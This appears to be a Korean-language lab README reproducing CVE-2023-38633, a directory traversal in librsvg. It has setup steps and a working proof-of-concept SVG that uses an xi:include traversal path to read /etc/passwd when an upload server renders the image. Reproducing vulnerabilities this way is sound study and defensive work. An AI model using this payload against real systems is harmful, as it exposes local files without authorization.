

# CVE-2023-38633

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [이승환(@EL55)](https://github.com/EL55)


### 요약
- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 libsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 'href=".?../../../../../../../../../../etc/passwd"'와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 'href="?"?/../../.././etc/passwd'에 의해 알 수 있음.


### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-   `SVG 이미지를 서버에 업로드하면 '/etc/passwd'가 포함된 이미지가 표시됨.


### poc.svg
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

### 결과

